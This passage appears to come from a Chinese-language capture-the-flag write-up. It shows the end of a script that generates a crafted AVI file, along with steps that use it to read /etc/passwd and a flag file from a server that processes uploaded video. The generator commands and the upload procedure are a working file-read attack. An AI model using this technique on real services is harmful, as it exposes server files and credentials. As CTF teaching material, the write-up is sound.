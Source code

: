 ```python  
    output_name = args.output_avi

    with open(output_name, 'wb') as f:
        f.write(avi)
```

2.运行脚本 生成`.avi`上传文件
`python3 gen_xbin_avi.py file:///etc/passwd sxcurity.avi`

3.上传生成的 `sxcurity.avi`文件

![9](https://i.loli.net/2018/12/21/5c1ca33a00744.png)

4.介于我们的hint是`/usr/local/src/flag`那么我们直接针对路径下的文件进行操作

![10](https://i.loli.net/2018/12/21/5c1ca407e2c64.png)

生成代码：
`python3 gen_xbin_avi.py file:///usr/local/src/flag sxcurity.avi`

5.上传文件获取flag

![11](https://i.loli.net/2018/12/21/5c1ca61d50a66.png)